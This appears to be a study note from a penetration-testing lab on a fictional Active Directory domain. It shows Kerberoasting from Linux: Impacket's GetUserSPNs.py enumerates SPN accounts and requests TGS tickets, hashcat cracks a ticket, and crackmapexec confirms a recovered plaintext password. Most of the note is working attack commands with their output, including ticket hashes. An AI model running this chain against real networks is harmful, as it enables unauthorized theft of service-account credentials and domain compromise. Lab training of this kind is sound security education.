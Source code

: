 ```yaml
---
title: a-Kerberoasting from Linux
draft: false
tags:
  - kerberoasting
  - getuserspns
---
```

So far, we have

Obtained password policy -> User list -> Password Spray -> Beachhead -> Domain Enumeration

Now that we have a good picture of the domain and potential issues, let's see if some user accounts are configured with Service Principal Names.

## Overview

Kerberoasting targets Service Principal Names (SPN) accounts.

An SPN is a unique identifier for a service instance in a network that uses Kerberos authentication. It is used by clients to request a service ticket from the Key Distribution Center (KDC) to authenticate to the service.

Sometimes, service accounts are often added to elevated privileged groups. 

In order to attempt Kerberoasting, we need to meet at least one requirement from below:

- With domain user credentials
- Shell in the context of a domain user
- Account such as SYSTEM


## GetUserSPNs.py

Let's first list out SPNs in the domain.

```shell-session
[!bash!]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never> 
```

Some of the users are member of domain admins, which is very interesting.

Now that we have list of SPNs, let's request for all TGS tickets to be cracked offline:

```shell-session
[!bash!]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never>               



$krb5tgs$23$*BACKUPAGENT$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/BACKUPAGENT*$790ae75fc53b0ace5daeb5795d21b8fe$b6be1ba275e23edd3b7dd3ad4d711c68f9170bac85e722cc3d94c80c5dca6bf2f07ed3d3bc209e9a6ff0445cab89923b26a01879a53249c5f0a8c4bb41f0ea1b1196c322640d37ac064ebe3755ce8889<snip>
$krb5tgs$23$*SOLARWINDSMONITOR$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/SOLARWINDSMONITOR*$993de7a8296f2a3f2fa41badec4215e1$d0fb2166453e4f2483735b9005e15667<snip>

<SNIP>
```

Instead of requesting for all TGS tickets, we can request for specific user as well:

```shell-session
[!bash!]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name    MemberOf                                             PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  ------  ---------------------------------------------------  --------------------------  ---------  ----------
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:13:31.639334  <never>               



$krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/sqldev*$4ce5b71188b357b26032321529762c8a$1bdc5810b36c8e485ba08fcb7ab273f778115cd17734ec65be71f5b4bea4c0e63fa7bb454fdd5481e32f002abff9d1c7827fe3a7527<snip>
```

To save the ticket to an output file:

```shell-session
[!bash!]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name    MemberOf                                             PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  ------  ---------------------------------------------------  --------------------------  ---------  ----------
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:13:31.639334  <never>  
```

Now let's crack the ticket:

```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

After the ticket is cracked, we can test the credentials using CME:

```shell-session
[!bash!]$ sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\sqldev:database! (Pwn3d!
```

